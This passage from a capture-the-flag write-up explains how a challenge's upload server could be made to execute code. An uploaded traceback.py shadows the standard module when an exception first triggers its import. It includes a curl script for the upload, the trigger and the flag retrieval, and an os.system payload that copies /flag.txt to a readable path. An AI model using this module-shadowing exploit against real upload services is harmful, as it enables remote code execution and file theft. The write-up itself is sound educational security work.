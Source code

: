 What we can see here is that the server loads a `traceback.py` module and first checks for it python compiled file (.pyc).

Now... what would happen if `traceback.py` existed in `/app/`?

### The solution

It turns out that by uploading in the `traceback.py` file and triggering the exception for the first time, the server imports the `traceback` module from the `/app/` directory and trigger our code!

*Note: Of course if the exception would be triggered before that, the module would already be loaded and its `import` would not reload it. But we can create our own instance of the challenge and thus exploit this fact.*

So to solve the challenge, we can use the following script:

```sh
#!/bin/sh

# Server setup
ADM=admin
PASS=password
URL="127.0.0.1:9000/"

curl -v -F "traceback.py=@traceback.py" -X POST -u $ADM:$PASS http://$URL
curl -v -F "lol=plik" -X POST -u $ADM:$PASS http://$URL
curl -v -u $ADM:$PASS http://$URL/myflag
```

With a `traceback.py` file with our payload. In my case it was the original traceback.py copied out from the container (with the `docker cp ...` command) plus the following:

```py
import os
os.system("cp /flag.txt /app/myflag")
```

As a result, executing the shell script from above we uploaded traceback.py, got it executed, which copied the flag to `/app/myflag` and then we just read it with the `do_GET` method since it read files from  `/app`.

Below you can see a screenshot from my terminals when I solved the challenge :).

![Solve photo]({{ site.url }}assets/posts/inso2025/inso2025-uploadserver-solv.webp)

